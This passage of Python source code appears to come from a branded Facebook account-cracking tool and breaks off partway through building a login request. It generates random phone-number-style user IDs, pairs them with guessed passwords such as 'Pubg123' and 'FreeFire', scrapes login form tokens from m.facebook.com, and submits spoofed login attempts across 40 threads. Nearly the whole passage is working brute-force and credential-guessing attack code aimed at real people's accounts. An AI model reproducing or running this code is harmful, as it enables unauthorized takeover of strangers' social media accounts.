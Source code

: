         nmp = ''.join(random.choice(string.digits) for _ in range(8))
        user.append(nmp)
    with ThreadPool(max_workers=40) as Fb_crack:
        os.system('clear')
        print(logo)
        tl = str(len(user))
        print("\033[1;91m╔═════════════════════════════════════╗")
        print(f'\033[1;91m║\033[1;92m ƳϴႮᎡ ՏᏆᎷ ᏟϴᎠᎬ : '+code) 
        print(f'\033[1;91m║\033[1;92m ƳϴႮᎡ ͲϴͲᎪᏞ ᏆᎠ : '+tl)
        print(f'\033[1;91m║\033[1;92m ☢ⒼⒾⒻⓉ ⒷⓎ ꕶꫝᏴᏴᏆᎡ ')
        print("\033[1;91m╚═════════════════════════════════════╝")
        for love in user:
            pwx = [love,love[2:],code+love[:3],'FreeFire','Pubg123','TikTok','Alh4aj']
            uid = code+love
            Fb_crack.submit(Alhajm,uid,pwx,tl)
    print("\033[1;91m╔═══════════════════════════╗")
    print(' \033[1;91m[\033[1;92m😚\033[1;91m]\033[1;92m Processes  COMPLETED ')
    print(' \033[1;91m[\033[1;92m😚\033[1;91m]\033[1;92m ꕶꫝᏴᏴᏆᎡ ')
    print("\033[1;91m╚═══════════════════════════╝")


def Alhajm(uid,pwx,tl):
    global loop
    global cps
    global oks
    global agents
    try:
        for ps in pwx:
            session = requests.Session()
            sys.stdout.write(f'\r \033[1;91m[\033[1;92mՏᎬᎪᎡᏟᎻᏆΝᏀ\033[1;91m]🔥[\033[1;92m%s\033[1;91m]🚀[\033[1;92mOK-%s\033[1;91m]\r'%(loop,len(oks))),
            sys.stdout.flush()
            pro = random.choice(ugen)
            free_fb = session.get('https://m.facebook.com').text
            log_data = {
                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
            "try_number":"0",
            "unrecognized_tries":"0",
            "email":uid,
            "pass":ps,
            "login":"Log In"}
            header_freefb = {'authority': 'm.facebook.com',
            "method": 'GET',
            "scheme": 'https',
            "accept": 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.8',
            "accept-encoding": 'gzip, deflate, br',
            "accept-language": 'en-US,en;q=1',
            'cache-control': 'no-cache, no-store, must-revalidate',
            "referer": 'https://m.facebook.com/',
            "sec-ch-ua": '"Google Chrome";v="90", "Not)A;Brand";v="8", "Chromium";v="75"',
            "sec-ch-ua-mobile": '?1',
            "sec-ch-ua-platform": "Windows",
            "sec-fetch-dest": 'document',
            "sec-fetch-mode": 'navigate',
            "sec-fetch-site": 'same-origin',
            "sec-fetch-user": '?0',
            "pragma": 'no-cache',
            "priority": 'u=0',
            'cross-origin-resource-policy': 'cross-origin',
            "upgrade-insecure-requests": '1',